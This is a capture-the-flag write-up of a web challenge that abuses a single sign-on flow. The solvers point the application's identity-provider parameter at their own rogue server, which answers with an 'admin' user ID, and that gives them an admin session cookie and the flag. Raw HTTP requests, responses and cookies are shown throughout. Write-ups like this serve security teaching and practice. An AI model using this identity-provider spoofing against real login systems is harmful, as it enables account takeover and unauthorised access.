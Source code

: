 ### Solved by Swappage and rasta_mouse

a nice web challenge involving single signon.

We were provided an unprivileged user:

    username: proff
    password: strobe.c

and we had to login as admin

When we login what happens at first is that a new SSOSESSIONID is assigned to the client:

    POST /users/login HTTP/1.1
    Host: dancing-dingoes.ctfcompetition.com
    User-Agent: Developer_JANEBO
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate, br
    Referer: https://dancing-dingoes.ctfcompetition.com/?auth=badcookie
    Connection: close
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 32

    username=proff&password=strobe.c

    HTTP/1.1 302 Found
    Location: /api/users/login?domain=dancing-dingoes.ctfcompetition.com
    Content-Type: text/html; charset=utf-8
    Date: Sat, 30 Apr 2016 20:50:23 GMT
    Server: Google Frontend
    Content-Length: 0
    Set-Cookie: SSOSESSIONID=dHlwZT1zZXNzaW9uJmlkeD0yJmM9OTImdWlkPTQ3OGN0eD0xNjM4NCZoYXNoPTQ4NDAyYWU2YzYxOTcyZGExYjk4MjUyZDgxNDNiNjYwNjA2ODQ4Yjk5NWEyMWVkZDg2Yjg1MmRkZjJlODI1MDA=; Path=/
    Alt-Svc: quic=":443"; ma=2592000; v="33,32,31,30,29,28,27,26,25"
    Connection: close

and then a call to the single sign on API is performed, and in exchange, we receive an APISESSIONID

    GET /api/users/login?domain=dancing-dingoes.ctfcompetition.com HTTP/1.1
    Host: dancing-dingoes.ctfcompetition.com
    User-Agent: Developer_JANEBO
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate, br
    Referer: https://dancing-dingoes.ctfcompetition.com/?auth=badcookie
    Cookie: SSOSESSIONID=dHlwZT1zZXNzaW9uJmlkeD0yJmM9OTImdWlkPTQ3OGN0eD0xNjM4NCZoYXNoPTQ4NDAyYWU2YzYxOTcyZGExYjk4MjUyZDgxNDNiNjYwNjA2ODQ4Yjk5NWEyMWVkZDg2Yjg1MmRkZjJlODI1MDA=
    Connection: close

    HTTP/1.1 302 Found
    Location: /documents
    Content-Type: text/html; charset=utf-8
    Vary: Accept-Encoding
    Date: Sat, 30 Apr 2016 20:50:23 GMT
    Server: Google Frontend
    Cache-Control: private
    Set-Cookie: APISESSIONID=dHlwZT1wcm9mZiZpZHg9NiZjPTY4JnVpZD05NWN0eD00MTI5Jmhhc2g9NjgxNGVhNzM0YmIzM2YzZmQzZDdmMzJkZjIwZDI1OWZlOTMzNDFmZWY2YmEzNjMyMTkxMGNmODIxNjE3MWIxZg==; Path=/
    Alt-Svc: quic=":443"; ma=2592000; v="33,32,31,30,29,28,27,26,25"
    Connection: close
    Content-Length: 33

    <a href="/documents">Found</a>.

if we decode the APISESSIONID cookie we can notice that the username is stored in there, but it's validated with an hash so we cant directly tamper with it

    type=proff&idx=6&c=68&uid=95ctx=4129&hash=6814ea734bb33f3fd3d7f32df20d259fe93341fef6ba36321910cf8216171b1f

if we can modify this cookie we can become admin, but how?

well, the problem is in the implementation of the single signon API on the website, which doesnt correctly validate the endpoint for the accounting of the users.

the get request to the API accepts the URL of the IdP as a get request, what we can do is to modify that parameter to force the application to rely on informations provided by a rogue identity provider.

The application was talking with the IdP using SSL, and required a valid certificate on the end point to work properly, rasta_mouse quickly set up a third level domain and using let's encrypt we created a valid certificate for our rogue Identity provider.

Redirecting the request and logging it using ncat we can see the following request made by the web application:

    GET /rest/v1/user/current HTTP/1.1
    Host: ctf.rastamouse.me
    Cookie: SSOSESSIONID=dHlwZT1zZXNzaW9uJmlkeD04JmM9MTg0JnVpZD05NTljdHg9MjA1MTImaGFzaD01ODdkZDcwNTA5NzQyNzViM2Q4ZGVjZDNmZmRlYzc3MWExYzhhMWQzMWZkMGFjMTQzN2UxZDg0NWVmZDAwNWY4
    X-Cloud-Trace-Context: f4b4533e24851c0e0e518a1201a82426/12550002289912413751;o=1
    Connection: Keep-alive
    User-Agent: AppEngine-Google; (+http://code.google.com/appengine; appid: s~ctf-dancing-dingoes)
    Accept-Encoding: gzip,deflate,br

We then forwarded the request to the legitimate IdP to check what the reply was like.

    > GET /rest/v1/user/current HTTP/1.1
    > Host: dancing-dingoes.ctfcompetition.com
    > User-Agent: curl/7.47.0
    > Accept: */*
    > Cookie: SSOSESSIONID=dHlwZT1zZXNzaW9uJmlkeD04JmM9MTg0JnVpZD05NTljdHg9MjA1MTImaGFzaD01ODdkZDcwNTA5NzQyNzViM2Q4ZGVjZDNmZmRlYzc3MWExYzhhMWQzMWZkMGFjMTQzN2UxZDg0NWVmZDAwNWY4
    >
    * Connection state changed (MAX_CONCURRENT_STREAMS updated)!
    < HTTP/2.0 200
    < content-type:text/html; charset=utf-8
    < vary:Accept-Encoding
    < date:Sat, 30 Apr 2016 22:43:02 GMT
    < server:Google Frontend
    < cache-control:private
    < alt-svc:quic=":443"; ma=2592000; v="33,32,31,30,29,28,27,26,25"
    < accept-ranges:none
    <
    * Connection #0 to host dancing-dingoes.ctfcompetition.com left intact
    { "UserID": "proff" }

Awesome, we can now set up a working rogue Identity provider on a local webserver to reply with the string

    { "UserID": "admin" }

Hopefully when the API will ask the IdP for the user information, it will accept our response and set up a cookie for the admin user, allowing us to see the flag.

    GET /documents HTTP/1.1
    Host: dancing-dingoes.ctfcompetition.com
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:45.0) Gecko/20100101 Firefox/45.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate, br
    Referer: https://dancing-dingoes.ctfcompetition.com/
    Cookie: SSOSESSIONID=dHlwZT1zZXNzaW9uJmlkeD0zJmM9MjEyJnVpZD03MDNjdHg9Njc3Jmhhc2g9MjQzNWM5Zjg2YjM0NzY4ZmEyNmZhMzdmMWQ5MDhhMDM1MzBmODcyZmExMzE4NjEzYmJiN2IzZWE4YTUxY2VhZA==; APISESSIONID=dHlwZT1hZG1pbiZpZHg9NCZjPTEyNCZ1aWQ9NTExY3R4PTE4NDY5Jmhhc2g9OGJmNzU0MDEwNDBjODBjZmU1ODZhNmMzZGZkYzYyNWU2ZmUxMGE3MGQwYzU0MzNhODM2NzU3MDQ0OThlNzMwZA==
    Connection: close

    HTTP/1.1 200 OK
    Content-Type: text/html; charset=utf-8
    Vary: Accept-Encoding
    Date: Sun, 01 May 2016 19:21:25 GMT
    Server: Google Frontend
    Cache-Control: private
    Alt-Svc: quic=":443"; ma=2592000; v="33,32,31,30,29,28,27,26,25"
    Connection: close
    Content-Length: 1082
```html
    <html>
      <head>
       <meta charset="utf-8">
       <title>outstanding-cobra</title>
       <link rel="stylesheet" href="/static/bootstrap.min.css" media="screen">
      </head>
      <body>
        <div class="container">
          <h1>Documents available</h1>
          <p>Below is the documents available to you!</p>
          <div id="list">
          </div>
        </div>
        <script>
          function displayDocuments(docList) {
            var html = "<ul>";
            for(i = 0; i < docList.length; i++) {
              html += "<li><a href=\"/documents/" + docList[i][0] + "\">" + docList[i][1] + "</a></li>";
            }
            html += "</ul>";
            // console.log(html);
            var o = document.getElementById('list');
            o.innerHTML = html;
          }

          var xh = new XMLHttpRequest();
          var u = "/documents/list";

          xh.onreadystatechange = function() {
            if(xh.readyState == 4 && xh.status == 200) {
              // console.log(xh.responseText);
              displayDocuments(JSON.parse(xh.responseText));
            }
          }

          xh.open("GET", u, true);
          xh.send();
        </script>
      </body>
    </html>
```

    > GET /documents/0b66e3f3-3f8e-4953-9414-00f29da9e68e HTTP/1.1
    > Host: dancing-dingoes.ctfcompetition.com
    > User-Agent: curl/7.47.0
    > Accept: */*
    > Cookie: SSOSESSIONID=dHlwZT1zZXNzaW9uJmlkeD0zJmM9MjEyJnVpZD03MDNjdHg9Njc3Jmhhc2g9MjQzNWM5Zjg2YjM0NzY4ZmEyNmZhMzdmMWQ5MDhhMDM1MzBmODcyZmExMzE4NjEzYmJiN2IzZWE4YTUxY2VhZA==;APISESSIONID=dHlwZT1hZG1pbiZpZHg9NCZjPTEyNCZ1aWQ9NTExY3R4PTE4NDY5Jmhhc2g9OGJmNzU0MDEwNDBjODBjZmU1ODZhNmMzZGZkYzYyNWU2ZmUxMGE3MGQwYzU0MzNhODM2NzU3MDQ0OThlNzMwZA==
    >
    * Connection state changed (MAX_CONCURRENT_STREAMS updated)!
    < HTTP/2.0 200
    < content-type:text/html; charset=utf-8
    < vary:Accept-Encoding
    < date:Sun, 01 May 2016 19:29:17 GMT
    < server:Google Frontend
    < cache-control:private
    < alt-svc:quic=":443"; ma=2592000; v="33,32,31,30,29,28,27,26,25"
    < accept-ranges:none
    <
    * Connection #0 to host dancing-dingoes.ctfcompetition.com left intact
    Note to self: CTF{lgtm.approval.undo.lgtm.undo.approval}

the flag is CTF{lgtm.approval.undo.lgtm.undo.approval}
